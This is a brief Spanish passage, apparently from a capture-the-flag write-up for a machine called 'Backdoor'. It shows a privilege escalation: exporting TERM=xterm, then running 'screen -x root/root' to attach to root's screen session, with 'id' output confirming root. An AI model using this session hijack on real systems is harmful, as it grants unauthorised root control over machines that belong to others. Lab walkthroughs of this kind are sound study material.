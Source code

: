 ## Debemos primero exportar los colores de la terminal
`$ TERM=xterm`

## Despues vamos a ejecutar lo siguiente:
`$ screen -x root/root`

## Ahora veremos que cambiaremos de un usuario estandar al owner
	
	root@Backdoor:~# id
	$ id
	$ uid=0(root) gid=0(root) groups=0(root)

